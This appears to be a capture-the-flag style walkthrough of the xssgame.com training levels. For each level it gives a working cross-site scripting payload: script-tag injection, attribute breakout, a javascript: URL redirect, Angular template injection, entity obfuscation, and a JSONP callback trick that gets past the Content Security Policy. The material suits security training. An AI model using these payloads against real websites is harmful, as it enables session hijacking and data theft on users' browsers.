 # [xssgame.com](http://xssgame.com/)

## Level 1

The input is embedded as-is into the page that'll load next.

```
<script>alert()</script>
```

## Level 2

The input becomes an argument as follows `onload="startTime(' + input + ');"`.

```
3');alert('
```

This works because `3');` correctly terminates the original function call, `alert('` starts a new call, "ending" of the original one.

## Level 3

Entering the following URL into the search bar works.

```
http://www.xssgame.com/f/u0hrDTsXmyVJ/#'onerror='alert()'
```

Sometimes it told me for this and similar inputs that this is wrong, something about absolute URLs, etc., but it accepted it.
Try switching from single to double apostrophes, use `onload` instead and supply input for a working `src` attribute, or try to close of the `img` tag.

## Level 4

There's an intermediate navigation with sets `window.location` to a query string parameter's value.

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

## Level 5

The page is modified before Angular processing kicks in.
The `utm_term` query string parameter's value is injected into the value of `<input name="utm_term">`.

```
http://www.xssgame.com/f/JFTG_t7t3N-P/?utm_term={{alert()}}
```

## Level 6

Simply posting the form doesn't inject anything useful into the response HTML.
Issuing a GET request like `/?query={{alert}}` results in the modification of the form's `action` parameter, it'll end up like this: `<form action="/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}"`.
The leading `{{` is dropped. Replacing it with an HTML entity works, however `&#123;` doesn't, only `&lcub;`.

```
http://www.xssgame.com/f/rWKWwJGnAeyi/?&lcub;&lcub;alert()}}
```

## Level 7

Sending a GET request to `http://www.xssgame.com/f/wmOM2q5NJnZS/?menu=...` by supplying the `menu` parameter a Base64 payload indirectly injects the following into the page.

```
<script src="jsonp?menu=' + encodeURIComponent(menu) + '">
```

Using `btoa('<script>alert();</script>')` as the payload doesn't quite work though, we get the following error.

```
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src http://www.xssgame.com/f/wmOM2q5NJnZS/ http://www.xssgame.com/static/". Either the 'unsafe-inline' keyword, a hash ('sha256-/NOakGMgxH1rSep6q9+wRmM98LxyJLGvY2s9h3kZOjY='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```

The error is due to the CSP set by the server-side. After the "trick" payload the DOM contains the following.

```
<h1>Error, no such menu: <script>alert();</script></h1>
```

Since the response body of the [JSONP](https://en.wikipedia.org/wiki/JSONP) call is `callback({"title":"Error, no such menu: <script>alert();</script>"})`.
This will execute the `callback(...)` function, which contains this `if (data.title) document.write('<h1>' + data.title + '</h1>');`, essentially injecting whatever in the `data.title` into the page itself.

JSONP is [exploitable if callback names supplied to such an endpoint are unsanitized](https://en.wikipedia.org/wiki/JSONP#Callback_name_manipulation_and_reflected_file_download_attack), meaning we can do this.

```
btoa('<script src="jsonp?callback=alert"></script>')
```

This ends up in the DOM as follows.

```
<h1>Error, no such menu: <script src="jsonp?callback=alert"></script></h1>
```

Which doesn't trigger the CSP, but triggers a GET request with the following response body.

```
alert({"title":"Welcome to my Website!","pictures":["const.png"]})
```

